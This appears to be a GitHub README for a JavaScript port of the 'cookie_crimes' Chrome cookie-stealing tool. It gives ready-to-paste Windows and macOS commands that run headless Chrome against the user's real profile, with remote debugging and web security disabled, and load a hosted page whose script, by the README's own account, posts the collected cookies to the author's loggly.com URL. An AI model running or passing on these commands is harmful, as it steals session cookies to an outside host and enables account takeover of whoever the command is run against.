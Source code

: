 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output to my own loggly.com URL. Host it on your own github to control the script completely and enable GitHub pages in your repository settings to server the page as an HTML file.

# Windows

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir=%localAppData%"\Google\Chrome\User Data\Default" https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" https://clr2of8.github.io/TestCC/```
